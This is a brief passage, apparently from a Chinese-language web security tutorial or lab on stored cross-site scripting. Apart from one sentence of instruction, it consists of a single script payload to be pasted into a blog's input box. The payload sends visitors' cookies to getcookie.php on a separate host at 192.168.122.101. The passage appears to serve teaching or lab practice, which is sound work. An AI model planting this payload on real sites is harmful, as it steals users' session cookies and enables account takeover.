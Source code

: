 ![entry-pxss](../imgs/wm_282.png)

然后我们将这样一段 javascript 代码放入 blog 的输入框中：

```
<SCRIPT>document.location='http://192.168.122.101/getcookie.php?remote_cookie='+document.cookie</SCRIPT>
```
